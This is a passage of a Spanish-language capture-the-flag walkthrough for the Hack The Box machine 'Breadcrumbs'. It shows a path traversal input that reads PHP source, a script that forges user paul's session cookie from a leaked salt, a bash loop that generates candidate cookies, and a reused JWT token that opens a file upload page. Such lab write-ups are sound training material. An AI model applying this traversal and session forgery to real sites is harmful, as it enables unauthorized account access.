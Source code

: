 `book=../portal/cookie.php&method=1 `

![cookie](/assets/img/Linux/Breadcrumbs/cookie.png)

Atento al mensaje, nos aconsejan no usar el default PHPSESSID, sin embargo, ese codigo, tenemos lo necesario para armar el nuestro, El phpsessid se crea mediante un string de hash md5 utilizando el nombre de usuario(mas arriba, en el portal tenemos una serie de usuarios "Admins", pero como hemos encontrado un secret key de paul, El sera nuestro target)

```php
<?php
$username = "paul";
$max = strlen($username) -1;
$seed = rand(0, $max);
$key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
$cookie = $username.md5($key);
echo $cookie;
?>
```



Nota: No me cruxifiquen por no usar una funcion.

![paul_cookie](/assets/img/Linux/Breadcrumbs/paul_cookie.png)

Aparentemente funciona :skull: procederemos a generar varios:

```bash
for i in {0..10};do php cookie.php;echo '';sleep 1;done
```

![cookie2](/assets/img/Linux/Breadcrumbs/cookie2.png)

# Foothold : Portal autentication Paul

Ahora vamos a loguearnos como Paul con una de esas cookies.

![Paul_Portal](/assets/img/Linux/Breadcrumbs/Paul_Portal.png)



Nos dirigimos hacia : `http://breadcrumbs.htb/portal/php/files.php` 

![files](/assets/img/Linux/Breadcrumbs/files.png)

Si intentamos subir algo :

![error](/assets/img/Linux/Breadcrumbs/error.png)

:cry: No funciona, sin embargo mas arriba ya tenemos nuestro Token :)  : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.4mJgu G8tRd2z_feWJpmr_J3AdMeDPvW7GCK7cW7o0AI`



![sucess](/assets/img/Linux/Breadcrumbs/sucess.png)
